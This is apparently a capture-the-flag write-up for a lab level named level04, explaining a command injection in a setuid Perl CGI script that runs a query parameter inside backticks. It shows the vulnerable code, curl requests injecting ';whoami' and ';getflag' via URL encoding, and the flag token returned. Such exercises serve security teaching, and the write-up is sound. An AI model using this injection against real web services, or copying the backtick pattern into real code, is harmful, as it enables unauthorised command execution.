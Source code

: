 # level04

We have a perl script, with the set uid bit:

    -rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl

Which mean that is we can inject the getflag command in the script, it will be executed with flag04 user rights.

    curl "http://localhost:4747/level04.pl?x=%3Bwhoami"
    flag04

This is a CGI script:

    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
      $y = $_[0];
      print `echo $y 2>&1`;
    }
    x(param("x"));

The only thing it does is retrieve user argument, but it prints it in a twisted way: the backquotes in perl mean that what's in between will be executed. Since there is suid bit, **instructions will be ran with flag04 rights**.

Then it is a classic injection: the user input starts with ";", and then we can input our getflag command. Let's not forget **url encoding: ``; = \%3B``.**

    curl "http://localhost:4747/level04.pl?x=%3Bgetflag"
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
